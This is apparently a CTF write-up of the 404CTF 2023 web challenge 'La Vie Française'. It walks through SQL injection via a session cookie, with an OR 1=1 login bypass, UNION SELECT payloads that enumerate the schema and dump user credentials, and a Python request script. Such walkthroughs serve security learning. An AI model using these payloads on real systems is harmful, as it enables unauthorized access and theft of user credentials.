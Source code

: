 ```yaml
---
title: CTFs | 404CTF2023 | La Vie Française
author: Stillwolfing
date: 2023-06-05
categories: [CTFs, 404CTF2023, Web]
tags: [CTF, 404CTF, Web]
permalink: /CTFs/404CTF2023/web/la_vie_francaise
---
```


Here is the context:

![context](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/context.png)


By clicking the link, we end on the journal's website:

![home](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/home.png)

Let's try to postulate:

![register](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/register.png)

It's a register page. We register with a random username, "bipboup".

We are redirected to a login page:

![login](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/login.png)

After connecting, we are on our account page:

![account](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/account.png)

We have got a cookie named "uuid" which identify us on the website.

![cookie](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/cookie.png)

I could not decrypt the cookie. I thought that maybe the cookie is stored in the database and the username is retrieved with an sql query that could look like.

```sql
select username from users where uuid = <uuid>;
```

Maybe the way the sql query is made is vulnerable to sql injections.

So I tried this:

I added "' or 1=1-- -" after the my cookie to try to select the first row.

![poc](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/poc.png)

It worked, I'm connected as Jacques Rival.

I created a script to craft my requests:

```python
import requests
from bs4 import BeautifulSoup

url = "https://la-vie-francaise.challenges.404ctf.fr/account"
sep = "0x207c20"

payload = f""

cookies = {'uuid': payload}

r = requests.get(url, cookies=cookies).text
r = r.replace(",", "\n")

if "Connexion" in r:
    print("Courage, tu y es presque !")
else:
    soup = BeautifulSoup(r, 'html.parser')
    print(soup.find("h3").text)
    print("Bravo !")

```

We just have to replace the payload with our payload.

I tried a union based sqli. I tried a request like:

```sql
' UNION SELECT 1-- -
```

I increased the number of row until I reach the good number of row of the query.

with:
```sql
' UNION SELECT 1, 2, 3-- -
```

I get this output:

![union_poc](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_poc.png)

Ok so we need 3 arguments and the first one is displayed on the screen.

Let's try to get the version of the database:

```sql
' UNION SELECT version(), 2, 3-- -
```

![union_version](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_version.png)

The engine is a MariaDB.

Let's get the tables under this database(There are more like system tables and other ones could be created).

```sql
' UNION SELECT group_concat(table_name), 2, 3 from information_schema.tables where table_schema=database()-- -
```

![union_table](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_table.png)

There is a table user. We need to know the columns of the table:

```sql
' UNION SELECT group_concat(column_name), 2, 3 from information_schema.columns where table_name='users'-- -
```

![union_columns](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_columns.png)

Now we can dump the table:

```sql
' UNION SELECT group_concat(uuid, {sep} , username, {sep}, password), 2, 3 from users-- -
```

![union_dump](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_dump.png)

We have madelaineforestier's password and uuid. We can connect using both.

Let's use the uuid:


![madelaine_forestier_account](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/madelaine_forestier_account.png)

On the admin panel:

![flag](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/flag.png)

We've got the flag 🥳 !!

I hope you learned something through this writeup 😉

Oh wait, I almost forgot to flex !

![first_blood](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/first_blood.png)


